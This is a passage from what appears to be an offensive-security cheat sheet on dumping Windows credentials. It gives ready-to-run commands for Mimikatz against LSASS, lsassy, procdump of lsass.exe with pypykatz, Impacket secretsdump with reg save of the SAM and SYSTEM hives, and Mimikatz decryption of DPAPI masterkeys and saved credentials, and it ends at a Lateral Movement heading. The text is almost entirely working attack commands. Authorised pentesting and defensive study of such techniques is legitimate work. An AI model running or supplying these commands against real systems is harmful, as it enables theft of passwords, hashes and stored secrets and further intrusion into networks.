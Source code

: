 ##### Mimikatz
```
# On the machine (AV might block it)
.\mimikatz.exe "sekurlsa::logonPasswords full" exit

# Locally from a minidump
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit
```
##### Lsassy
```
lsassy -d <domain_name> -u <user> -p <password> -r -vv 10.10.10.10
lsassy -d <domain_name> -u <user> -p <password> -dc-ip 10.10.10.10 -r --procdump /path/to/procdump -vv 10.10.10.0/24
```
##### Procdump
```
# Dump lsass memory (PID might bypass AVs)
.\procdump64.exe -accepteula -ma lsass.exe lsass
.\procdump64.exe -accepteula -ma <lsass_pid> lsass

# Parse the dump locally on windows (see above) or with pypykatz
pypykatz lsa minidump lsass.dmp
```

#### SAM

##### Impacket
```
secretsdump.py <domain_name>/<user>:<password>@10.10.10.10
secretsdump.py <domain_name>/<user>@10.10.10.10 -hashes :<nt_hash>

# Locally
# Dump SYSTEM, SAM hives
reg save HKLM\SYSTEM \\10.10.10.150\share\SYSTEM
reg save HKLM\SYSTEM  \\10.10.10.150\share\SAM
secretsdump.py -sam SAM -system SYSTEM local
```

#### DPAPI

##### Mimikatz
From [mimikatz github](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
```
# Check the details of the credential
.\mimikatz.exe "dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012" exit

# Get victim security context (inject into user process or impersonnate with token)
# Decrypt the Masterkey using her password: Tip: if we are on a user's context using /rpc will auth with DC and will decrypt the masterkey!
.\mimikatz.exe "dpapi::masterkey /in:c:\Users\victim\AppData\Roaming\Microsoft\Protect\S-1-5-21-1313131313-8888888888-9999999999-1111\5f4b97cd-43aa-5e0f-26ab-fe63d801bbc4 /rpc" exit

Results: Masterkey:abcdef0123[...]4567890
SHA1 of masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f

# Decrypt the credential
.\mimikatz.exe "token::elevate dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012 /masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f" exit
```
### Lateral Movement
